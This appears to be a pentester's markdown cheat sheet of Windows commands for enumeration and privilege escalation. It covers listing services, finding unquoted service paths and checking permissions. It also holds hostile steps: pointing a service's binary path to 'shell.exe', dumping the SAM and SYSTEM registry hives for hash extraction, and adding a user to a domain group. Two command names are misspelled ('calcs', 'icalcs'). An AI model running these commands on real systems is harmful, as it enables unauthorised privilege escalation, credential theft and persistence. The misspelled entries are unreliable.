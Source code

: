 # dos commands

## see running service processes
tasklist /SVC

```powershell
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```

## windows services and drivers
net start

## service paths
https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths
```dos
wmic service get name,displayname,pathname,startmode | findstr /i "auto"
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

## installed drivers
driverquery

## active network connections
netstat -ano

## show environment variables
set

## file permissions
calcs file.exe
icalcs file.exe

### access check sysinternals
upload accesschk.exe
```dos
ac.exe /accepteula -uwcqv "Authenticated Users" *
```

## services sc

### enable service
set to auto start
sc config SVC_NAME start= auto

### set binary path
sc config SVC_NAME binpath= "c:\inetpub\shell.exe"

### start service
net start SVC_NAME

## kill process by id
taskkill /f /pid 1234

## admin / system
### dump registry secretsdump hashes
reg save HKLM\sam sam
reg save HKLM\system system

## net

### add user to domain group
net group GroupName UserName /domain /add
